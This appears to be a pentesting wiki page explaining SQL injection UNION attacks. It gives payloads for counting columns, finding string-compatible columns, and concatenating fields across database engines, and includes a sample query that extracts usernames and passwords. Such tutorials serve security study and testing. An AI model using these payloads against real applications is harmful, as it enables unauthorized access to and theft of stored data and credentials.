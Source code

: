 # UNION Attacks

## Theory

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in a SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example: 
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
  
This SQL query will return a single result set with two columns, containing values from columns **a** and **b** in **table1** and columns **c** and **d** in **table2**. 

## Practice

### Finding number of columns
We first need to know the number of columns in order to append data. When performing a SQL injection UNION attack, there are three effective methods to determine how many columns are being returned from the original query. 

{% tabs %}
{% tab title="MySQL" %}
Using `order by`
```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
  
Using `group by`
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `UNION SELECT` 
This only works if error showing is enabled
```sql
' UNION SELECT NULL--            #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL--       #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL,NULL--  #No error means query uses 3 column
```
{% endtab %}
{% endtabs %}

### Finding the good column's data type
The reason for performing a SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data. 
{% tabs %}
{% tab title="MySQL" %}
After already determined number of columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT`. For example, if the query returns four columns, you would submit: 
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
{% endtab %}
{% endtabs %}

### String concatenation
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values.  
For example, on Oracle you could submit the input: `' UNION SELECT username || '~' || password FROM users--`

{% tabs %}
{% tab title="MySQL" %}
```sql
'foo' '~' 'bar' /*Note the space between the two strings*/
CONCAT('foo','~','bar')
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
'foo'+'~'+'bar' 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}
{% endtabs %}

### Unsing UNION attack
When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

For example we can retrieve the database version on MySQL:
```
' UNION SELECT @@version, NULL--
```

You can now use queries on this page, in combinaison with UNION injection to dump the database. 
{% page-ref page="enum-databases.md" %}


## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}